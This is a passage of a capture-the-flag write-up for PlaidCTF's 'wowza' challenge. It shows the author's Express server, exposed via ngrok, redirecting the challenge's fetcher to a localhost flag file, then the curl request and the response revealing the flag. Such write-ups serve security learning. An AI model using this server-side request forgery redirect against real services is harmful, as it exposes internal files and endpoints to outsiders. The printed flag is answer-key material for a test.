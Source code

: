 We get the refetch request on our server:

```http
20:28:28: GET /
        Accept: */*
        User-Agent: node-fetch/1.0 (+https://github.com/bitinn/node-fetch)
        Accept-Encoding: gzip,deflate
        Connection: close
        Host: 81b70181c396.ngrok.io
        X-Forwarded-For: 136.24.87.102
```

### Redirect

Now all that's left should be changing up our local server to serve up a redirect rather than something with content we can search.  Something like:

```js
const express = require("express");
const app = express();
// app.use(express.static('.'));
app.all("/", (req, res) => {
  res.redirect("http://localhost:1337/flag.txt");
});
app.listen(port, () => console.log(`exfil and tools server listening on port ${port}!`));
```

And lets run the search again:

```html
╭─zoey@parrot ~/sec/plaidctf/wowza ‹main*› 
╰─$ curl 'http://wowza.pwni.ng:6285/?domain=81b70181c396.ngrok.io&q=wowza'
<html>
    <head>
        <!-- I submit for your consideration that this is not an XSS problem -->
        <link rel="preconnect" href="https://fonts.gstatic.com">
        <link href="https://fonts.googleapis.com/css2?family=Lato:ital,wght@0,100;0,300;0,400;0,700;1,100;1,300;1,400;1,700&display=swap" rel="stylesheet">
        <link rel="stylesheet" href="/static/main.css">
        <script src="/static/main.js"></script>
    </head>
    <body>
        <div class="content">
            <div class="head">
                <div class="logo">Wowza!</div>
                <div class="search-bar">
                    <input type="text" id="domain-search" placeholder="Domain">
                    <div class="divider"></div>
                    <input type="text" id="query-search" placeholder="Query">
                </div>
            </div>
            <div class="result-list">
<div class="result">
    <a class="link" href="http://81b70181c396.ngrok.io/" target="__blank">/</a>
    <div class="description">
        PCTF{i_found_another_immutable_bug_while_writing_this_problem}}
    </div>
</div>
    </div>
        </div>
    </body>
</html>
```

Success!